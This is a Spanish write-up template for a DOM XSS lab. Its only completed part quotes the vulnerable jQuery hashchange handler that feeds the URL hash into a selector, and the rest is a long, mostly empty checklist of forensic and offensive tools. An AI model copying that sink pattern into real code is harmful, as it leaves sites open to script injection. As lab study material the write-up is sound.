 # 👨‍🏫 WRITEUP RESUMEN



<details>

<summary>👁️ RECONOCIMIENTO PASIVO ✔️</summary>

## AUDITORIA DE: ((Laboratorio: DOM XSS en el receptor del selector jQuery usando un evento hashchange))

***

***

### RECONOCIMIENTO PASIVO

*   [x] BROWSER👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    SCRIPT:


    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + 
    ')');
        if (post) post.get(0).scrollIntoView();
    });
    ```
     ![DOM-XSSenSelectorEventoHASHCHANGE](https://github.com/MammaniNelsonD/P4IM0N_H4CKING/assets/114308492/a170860c-2a92-4d05-ad6e-8c8978af4742)

    * CONCLUSION: ENCONTRAMOS EN EL HTML DEL HOME EL SCRIPT QUE MANEJA EL SELECTOR JQUERY EN EL EVENTO HASHCHANGE.

***

***



</details>

🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫



<details>

<summary>🔬 ANALISIS FORENSE ❌</summary>

### ANALISIS FORENSE

*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DFF👈 (Digital Forensics Framework) [https://github.com/arxsys/dff](https://github.com/arxsys/dff)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSK👈 (The Sleuth Kit) [https://tools.kali.org/forensics/sleuthkit](https://tools.kali.org/forensics/sleuthkit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] X-WAYS Forensics👈 [https://www.x-ways.net/forensics/index-m.html](https://www.x-ways.net/forensics/index-m.html)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FOREMOST👈 [https://github.com/korczis/foremost](https://github.com/korczis/foremost)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HxD👈 [https://mh-nexus.de/en/hxd/](https://mh-nexus.de/en/hxd/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HxD👈 [https://mh-nexus.de/en/hxd/](https://mh-nexus.de/en/hxd/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦



<details>

<summary>👊 RECONOCIMIENTO ACTIVO ❌</summary>

### RECONOCIMIENTO ACTIVO

*   [ ] PING👈 --------------------------------->[https://www.kali.org/tools/fping/](https://www.kali.org/tools/fping/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NESSUS👈 --------------------------------->[https://es-la.tenable.com/products/nessus/nessus-essentials](https://es-la.tenable.com/products/nessus/nessus-essentials)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OPENVAS👈 --------------------------------->[https://github.com/greenbone/openvas-scanner](https://github.com/greenbone/openvas-scanner)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NIKTO👈 --------------------------------->[https://github.com/sullo/nikto](https://github.com/sullo/nikto)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OWASP ZAP👈 --------------------------------->[https://github.com/zaproxy/zaproxy](https://github.com/zaproxy/zaproxy)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRBUSTER👈 --------------------------------->[https://github.com/KajanM/DirBuster](https://github.com/KajanM/DirBuster)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRBUSTER👈 --------------------------------->[https://github.com/KajanM/DirBuster](https://github.com/KajanM/DirBuster)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SQLMAP👈 --------------------------------->[https://github.com/sqlmapproject/sqlmap ](https://github.com/sqlmapproject/sqlmap)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/sqlmap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SQLMAP👈 --------------------------------->[https://github.com/sqlmapproject/sqlmap ](https://github.com/sqlmapproject/sqlmap)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/sqlmap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WPSCAN👈 --------------------------------->[https://wpscan.com/register/](https://wpscan.com/register/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOOMSCAN👈 --------------------------------->[https://www.kali.org/tools/joomscan/](https://www.kali.org/tools/joomscan/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOBUSTER👈 --------------------------------->[https://www.kali.org/tools/gobuster/](https://www.kali.org/tools/gobuster/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOBUSTER👈 --------------------------------->[https://www.kali.org/tools/gobuster/](https://www.kali.org/tools/gobuster/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FFUF👈 --------------------------------->[https://www.kali.org/tools/ffuf/ ](https://www.kali.org/tools/ffuf/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ffuf)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FFUF👈 --------------------------------->[https://www.kali.org/tools/ffuf/ ](https://www.kali.org/tools/ffuf/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ffuf)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TRACEROUTE👈 --------------------------------->[https://www.kali.org/tools/traceroute/](https://www.kali.org/tools/traceroute/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH👈 --------------------------------->[https://www.kali.org/tools/openssh/ ](https://www.kali.org/tools/openssh/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ssh-secure-shell)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH👈 --------------------------------->[https://www.kali.org/tools/openssh/ ](https://www.kali.org/tools/openssh/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ssh-secure-shell)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BETTERCAP👈 --------------------------------->[https://www.kali.org/tools/bettercap/ ](https://www.kali.org/tools/bettercap/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/bettercap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBMAP👈 --------------------------------->[https://www.kali.org/tools/smbmap/](https://www.kali.org/tools/smbmap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBMAP👈 --------------------------------->[https://www.kali.org/tools/smbmap/](https://www.kali.org/tools/smbmap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WFUZZ👈 --------------------------------->[https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WFUZZ👈 --------------------------------->[https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BETTERCAP👈 --------------------------------->[https://www.kali.org/tools/bettercap/ ](https://www.kali.org/tools/bettercap/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/bettercap)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMMIX👈 --------------------------------->[https://www.kali.org/tools/commix/](https://www.kali.org/tools/commix/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMMIX👈 --------------------------------->[https://www.kali.org/tools/commix/](https://www.kali.org/tools/commix/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SKIP-FISH👈 --------------------------------->[https://www.kali.org/tools/skipfish/](https://www.kali.org/tools/skipfish/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WAPITI👈 --------------------------------->[https://www.kali.org/tools/wapiti/](https://www.kali.org/tools/wapiti/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ETTERCAP👈 --------------------------------->[https://www.kali.org/tools/ettercap/](https://www.kali.org/tools/ettercap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIFITE👈 --------------------------------->[https://www.kali.org/tools/wifite/](https://www.kali.org/tools/wifite/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SPOOFTOOPH👈 --------------------------------->[https://www.kali.org/tools/spooftooph/](https://www.kali.org/tools/spooftooph/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC👈 --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪



<details>

<summary>🕵️ INVESTIGACION OSINT ❌</summary>

### INVESTIGACION OSINT

*   [ ] OSINT Framework👈 --------------------------------->[https://osintframework.com/](https://osintframework.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Maltego👈 --------------------------------->[https://www.kali.org/tools/maltego/](https://www.kali.org/tools/maltego/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Maltego👈 --------------------------------->[https://www.kali.org/tools/maltego/](https://www.kali.org/tools/maltego/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Recon-ng👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Recon-ng👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] theHarvester👈 --------------------------------->[https://www.kali.org/tools/theharvester/](https://www.kali.org/tools/theharvester/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] theHarvester👈 --------------------------------->[https://www.kali.org/tools/theharvester/](https://www.kali.org/tools/theharvester/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](https://app.gitbook.com/o/7R5fPL7tMt73q9k0N7ZG/s/2rX5FvtpEjxBEKVG60XW/\~/changes/46/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
